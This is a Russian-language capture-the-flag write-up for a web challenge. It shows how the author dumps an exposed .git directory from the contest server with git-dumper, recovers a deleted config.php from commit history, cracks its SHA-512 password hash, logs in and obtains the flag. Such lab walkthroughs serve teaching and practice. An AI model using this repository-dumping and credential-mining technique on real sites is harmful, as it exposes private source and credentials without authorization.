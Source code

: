 # WebSite3

Заходя на сайт, видим 2 картинки на чёрном фоне, одна из них означает космос другая ветвь. Это намекает на дерево git. Проверим папку `.git`, действительно она там есть. Тогда сдампим её через git-dumper.
```bash
git-dumper http://web.ctf.msk.ru/ctn2021/advancedquals/WebSite3/.git/ WebSite3
```
Зайдя в директорию с сдампленным проектом, видим login.php, смотря код видим следующее:
```php
<?php
  require_once "config.php";
?>
```
Следовательно, где-то затерялся ещё один файл с конфигом, хорошо, посмотрим остальной код. Видим обычную авторизацию после верновведёных полей которой получим флаг. Но вот username и password находятся в потерянном `config.php`. Тогда время применять git:
```bash
git log
```
Видим все коммиты:
`
commit 3adab4d59f5951e0471435643a45d138795efedc (HEAD -> master)
Make body black

commit 0582e6c14506689b7d7dc94df34376270701c7d7
Add login form

commit b8dfe2717dc0a632ecd9db2cea2eaa5d01fa5b06
Remove config

commit 2dd7285b2877ef9a3a5a18eb7bd7970c15c9dd90
Add config

commit 341d580b5959b9f8a30b3ee31dbf61d6eb4dc940
Add Static
`
Нам интересен коммит добавления конфига, поэтому прописываем команду: `git show 2dd7285b2877ef9a3a5a18eb7bd7970c15c9dd90`
И получаем код конфига:
```php
<?php
  $username = "testuser";
  $testpassword = "e9e633097ab9ceb3e48ec3f70ee2beba41d05d5420efee5da85f97d97005727587fda33ef4ff2322088f4c79e8133cc9cd9f3512f4d3a303cbdb5bc585415a00";
?>
```
Пароль можно посмотреть через декриптор  (из `login.php` узнаём, что это `sha512`), получаем пароль `testpassword`
Логинимся с username и password `testuser` и `testpassword` соответственно и получаем флаг:

Flag: `CYBERTHON{83_4W433_0F_9i7}`
